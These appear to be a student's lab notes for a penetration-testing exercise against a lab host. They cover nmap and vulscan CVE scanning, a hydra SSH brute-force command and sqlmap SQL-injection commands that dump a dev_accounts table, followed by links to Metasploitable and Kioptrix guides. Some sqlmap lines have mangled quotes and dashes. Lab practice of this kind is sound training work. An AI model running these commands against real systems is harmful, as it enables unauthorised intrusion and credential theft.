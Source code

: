 # ЛР6
```
$IP = 192.168.37.101
```
## nmap
```
# scanning for open ports
nmap -sV 192.168.37.1/24

## nmap-vulscan

# installation
cd /usr/share/nmap/scripts/
git clone https://github.com/scipag/vulscan.git
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan 
cd vulscan/utilities/updater/
chmod +x updateFiles.sh
./updateFiles.sh

# scanning cve
nmap --script vulscan/ --script-args vulscandb=cve.csv -sV -oN 101.txt $IP
```

## SSH - exploitation
```
# enumerate auth methods supported
nmap --script ssh-auth-methods $IP
# using hydra for bruteforce-attack
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://$IP -t 4
```

## Port 80 exploitation
```
nikto -h $IP
# find the available databases:
sqlmap -u "http://192.168.37.101/gallery/gallery.php?id=1" — dbs
sqlmap -u "http://192.168.37.101/gallery/gallery.php?id=1” -p id — tables -D gallery
# dump all entries in the dev_account table:
sqlmap -u “http://192.168.37.101/gallery/gallery.php?id=1" -p id -T dev_accounts –dump
```

## metasploit
Metasploitable/SSH/Exploits
`https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits`

Metasploitable/NFS
`https://charlesreid1.com/wiki/Metasploitable/NFS`

How to add a module to Metasploit from Exploit-DB
`https://kalinull.medium.com/how-to-add-a-module-to-metasploit-from-exploit-db-d389c2a33f6d`

The best Beginner guide to hacking Metasploitable2 with Kali Linux
`https://www.youtube.com/playlist?list=PLEAkrOvgdk5RnMOqvQmMeAHl6UFJNiUcs`

Vulnhub — Kiopitrix Level 1.2(#3) Write Up
`https://medium.com/@tnvo/vulnhub-kiopitrix-level-1-2-3-write-up-7147476d5efa`